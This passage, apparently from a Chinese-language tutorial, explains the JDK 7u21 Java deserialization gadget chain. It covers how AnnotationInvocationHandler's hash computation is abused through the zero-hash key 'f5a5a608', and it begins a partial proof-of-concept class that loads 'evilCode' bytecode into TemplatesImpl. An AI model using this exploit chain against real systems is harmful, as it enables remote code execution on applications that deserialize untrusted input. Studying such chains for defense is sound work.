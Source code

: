 对于代理对象的`hashCode()`，它也会触发invoke进入`AnnotationInvocationHandler`的`hashCodeImpl`方法

```java title="hashCodeImpl"
    private int hashCodeImpl() {
        int result = 0;
        for (Map.Entry<String, Object> e : memberValues.entrySet()) {
            result += (127 * e.getKey().hashCode()) ^ memberValueHashCode(e.getValue());
        }
        return result;
    }    
```

计算方法为遍历memberValues，对`(127*hash(key))^hash(value)`求和，我们的memberVlues只需要一个元素即可，因此我们需要满足等式`(127*hash(key))^hash(value)==TemplatesImpl.hashCode()`。

一个巧妙地思路是令hash(key)为0，这样只需满足`hash(value)==TemplatesImpl.hashCode()`即，而我们可以将value置为插入HashSet的`TemplatesImpl`实例，这样哈希值就相同了。常用哈希值为0的key：`f5a5a608`。

至此，整条利用链已经构造完成。

### PoC

=== "Jdk7u21.java"

    ```java
    package cc.jdk7u21;

    import cc.util.SerializeUtil;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

    import javax.xml.transform.Templates;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.util.HashMap;
    import java.util.HashSet;
    import java.util.LinkedHashSet;
    import java.util.Map;

    public class Jdk7u21 {
        public static void main(String[] args) throws Exception{
            byte[] evilCode = SerializeUtil.getEvilCode();
            TemplatesImpl templates = new TemplatesImpl();
            SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
            SerializeUtil.setFieldValue(templates,"_name","colemak");

            HashMap<String, Object> memberValues = new HashMap<String, Object>();

            // 为了避免在序列化前向 hashSet 中添加元素时就发生 hash 冲突触发漏洞，这里先修改value的值
            memberValues.put("f5a5a608","colemak"); 

            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
            cons.setAccessible(true);
            InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


            Templates proxy = (Templates) Proxy.newProxyInstance(
                    Templates.class.getClassLoader(),
                    new Class[]{Templates.class},
                    handler
            );
